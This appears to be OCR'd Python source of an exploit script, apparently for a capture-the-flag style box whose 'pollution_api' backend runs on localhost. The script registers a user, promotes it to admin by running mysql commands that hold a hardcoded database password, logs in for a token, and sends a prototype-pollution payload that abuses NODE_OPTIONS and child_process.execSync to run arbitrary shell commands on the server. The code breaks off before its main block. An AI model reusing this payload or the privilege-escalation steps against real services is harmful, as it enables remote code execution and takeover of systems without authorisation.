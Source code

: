 ```py
import requests
import json
import subprocess
import sys

session = requests.Session()
host = "http://127.0.0.1:3000"
username = "poorduck"
password = "p00rduck"


# Step 1
def register_user(url, user, password):
    resp = session.post(f"{url}/auth/register", json={"username": user, "password": password})
    status = json.loads(resp.text)["Status"]
    print("[+] Register status:", status)
    if "This user already exists" or "Ok" in status:
        return True
    else:
        return False

# Step 2
def update_user_role(user):
    print("... updating User role")
    cmd = f"mysql -u webapp_user -pStr0ngP4ssw0rdB*12@1 -e \"USE pollution_api; UPDATE users SET role = 'admin' WHERE username = '{user}';\""
    subprocess.run(cmd, shell=True)

    cmd = f"mysql -u webapp_user -pStr0ngP4ssw0rdB*12@1 -e \"SELECT role FROM pollution_api.users WHERE username = '{user}'\""
    is_admin = subprocess.run(cmd, shell=True, stdout=subprocess.PIPE)
    if 'admin' in is_admin.stdout.decode():
        return True
    else:
        return False

# Step 3
def admin_token(url, user, password):
    resp = session.post(f"{url}/auth/login", json={"username": user, "password": password})
    status = json.loads(resp.text)
    print("[+] Login status:", status["Status"])
    if status["Status"] == "Ok":
        return status["Header"]
    else:
        return False

# Step 4
def pollute_it(url, cmd):
    carbon_dioxide = {"text": {"constructor": {"prototype": {"shell":"/proc/self/exe", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": f"console.log(require(\"child_process\").execSync(\"{cmd}\").toString())//"}}}}
    resp = session.post(f"{url}/admin/messages/send", json=carbon_dioxide)
    status = json.loads(resp.text)["Status"]
    print("[+] Pollution status:", status)
    if status == "Ok":
        return True
    else:
        exit("[-] Unable to pollute!")


if __name__ == "__main__":
    try:

```